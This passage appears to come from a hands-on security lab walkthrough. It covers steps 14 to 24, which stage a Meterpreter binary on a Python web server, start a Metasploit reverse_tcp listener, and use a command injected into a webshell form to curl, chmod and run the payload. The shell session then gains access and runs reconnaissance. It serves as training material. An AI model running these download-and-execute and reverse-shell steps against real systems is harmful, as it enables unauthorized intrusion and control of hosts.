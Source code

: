 14. Now stage a web server in that terminal, hosting the `mrsbin` binary:

    ```shell
    python3 -m http.server 80
    ```

15. Next, start up a new terminal by hitting `Ctrl-shift-T`.

16. Let's start up Metasploit to receive the Meterpreter connection.  Start a Metasploit console session:

    ```shell
    msfconsole
    ```

17. In the Metasploit console, run these commands to start a listener that's specific to this Meterpreter binary:

    ```text
    use exploit/multi/handler
    set payload linux/x86/meterpreter/reverse_tcp
    set LHOST 10.23.58.30
    exploit -j
    ```

18. Now, switch back to your browser, where we'll be replacing our id command with one that will download, chmod and run the mrsbin Meterpreter binary.

19. Copy and paste this text into the "Command" form item, then click "Submit".

    ```text
    curl -O http://10.23.58.30/mrsbin; chmod 755 mrsbin; ./mrsbin
    ```

20. Notice that the page seems to keep loading forever. That's a good thing – it means that the garbage webshell hasn't finished executing `mrsbin`. If it ever does, we'll likely need to restart `mrsbin` through the webshell,.

21. Switch back to the terminal window to see that your Metasploit console shows a "Meterpreter session N opened" where N is a number, usually 1.  Press `Enter`.

22. Interact with the meterpreter by typing `sessions -i N`, where N is that session number from the previous step.  If `N = 1`, type:

    ```shell
    sessions -i 1
    ```

23. Now get a shell by typing:

    ```shell
    shell
    ```

24. Run a `mount` command, so we can see if anything interesting is mounted:

    ```shell
    mount
    ```
